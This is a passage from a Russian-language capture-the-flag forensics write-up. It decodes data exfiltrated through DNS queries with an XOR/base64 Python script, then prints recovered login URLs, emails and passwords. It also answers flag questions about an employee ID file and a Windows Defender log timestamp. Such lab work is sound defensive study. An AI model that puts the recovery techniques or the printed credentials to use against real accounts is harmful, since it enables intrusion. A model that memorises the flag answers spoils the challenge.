└─# python3 sc.py           
Saved: Personal.txt (258 bytes)
Saved: SecretData.txt (14924 bytes)
```

Но замечаем, что содержимое файла DESKTOP-JDMCC6F_PC31_0157e662-8083-4043-b901-3e0733a2e8d8.txt не восстановилось (из за malformed dns packets), поэтому:

### Вручную достаем из dns queries names зашифрованный файл и декодируем содержимое:

```python
import base64

key = "TU№n31iNG".encode()
blocks = [
    "PCGW9OVUHB4eOTB6J43r", "IHiP4bgBQVZGMik7IYf8", "NTiS6PMuVl0MLTMmOoyq",
    "JCeN8PkAHVwIJysoAtG2", "HADB965cSgVednQ8IMbu", "EDuG8f85fEsIb008IZb0",
    "J2/Nq/oBVFgHYD41PY3r", "ejaN6bkPUFIGOykgeoH2", "MTSW4eoIWkMaOik1OIew",
    "ZGzQt+o5VlACAyY6PIi2", "ZTzRvPJcAGY6Bj0jXw=="
]

decrypted = bytearray()
for block in blocks:
    decrypted.extend(b ^ key[i % len(key)] for i, b in enumerate(base64.b64decode(block)))

print(decrypted.decode('utf-8', errors='replace'))
```

### Результат:

```
https://www.root-me.org/|notexample@electron.proton.mail|W32HU#s82y4783hu$jDnduiWOza!
https://login.yahoo.com/account/create|firstname40923|WeakManij21i38d23WSHzw
```

## Ответ: caplag{notexample@electron.proton.mail_W32HU#s82y4783hu$jDnduiWOza!} 

## Q10) У пользователя на рабочем столе хранился файл со всеми ID сотрудников. Какой ID у Сони?

```
┌──(myenv)─(root㉿scrock)-[~/mnt/chall1/task]
└─# cat files/Personal.txt 
--------Name ---- ID ------

        Sonya   412981238JS
        Jan     012390841QL
        Lola    912308498ZX
        Mihail  130157146FW
        Sandy   958933438XE
--------Name ---- ID ------

        Sonya   412981238JS
        Jan     012390841QL
        Lola    912308498ZX
        Mihail  130157146FW
        Sandy   958933438XE
```

## Ответ: caplag{412981238JS}

## Q11) Во сколько антивирус windows выключился из автоматического режима (дд:мм:гггг_чч:мм:сс)?

### Открываем журнал Microsoft-Windows-Windows Defender%4Operational.evtx



## Ответ: caplag{25:06:2025_06:34:16}
